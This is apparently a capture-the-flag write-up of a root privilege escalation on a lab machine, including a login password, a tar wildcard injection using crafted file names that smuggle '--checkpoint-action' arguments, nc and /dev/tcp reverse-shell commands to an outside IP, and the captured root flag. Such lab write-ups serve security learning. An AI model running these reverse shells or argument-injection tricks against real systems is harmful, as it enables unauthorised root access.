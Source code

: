 If we are able to somehow put the flag inside the archive...
Symlinks will be copied as is (Not following) so this is not working..
Can't mount either..

If we could find a way to make `/var/www/html` point to `/root` that would work...

But since we can't write in `/var/www/` I don't find a way to do it...

Actually, i was doing a typo when trying to login with `milesdyson`... Maybe we can bruteforce this login ?

Lol... the login was just
```
miledyson:cyborg007haloterminator
```

Weird can't login via ssh with those credentials but I can login using `su milesdyson` from `www-data` reverse shell.

Now that we're logged in, we can just modify `backup.sh`
OH well.. we don't have write permissions on `backup.sh`...

hmmm... gained nothing from login in `milesdyson`...

Found some priviledge escalation using tar wildcard : `https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/`

We write this : in `/var/www/html`
```
echo "mkfifo /tmp/lhennp; nc 10.10.235.153 8888 0</dev/shm/lhennp | /bin/sh >/dev/shm/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

We get a connection but it's closed immediatly...
Maybe we can try with a different `shell.sh`
The important parts are the `--checkpoint` files that are expanded with `*` and are used as parameters for tar.

We use this as `shell.sh` :
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.235.153/8888 0>&1
```

And we got a root reverse shell:
```
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```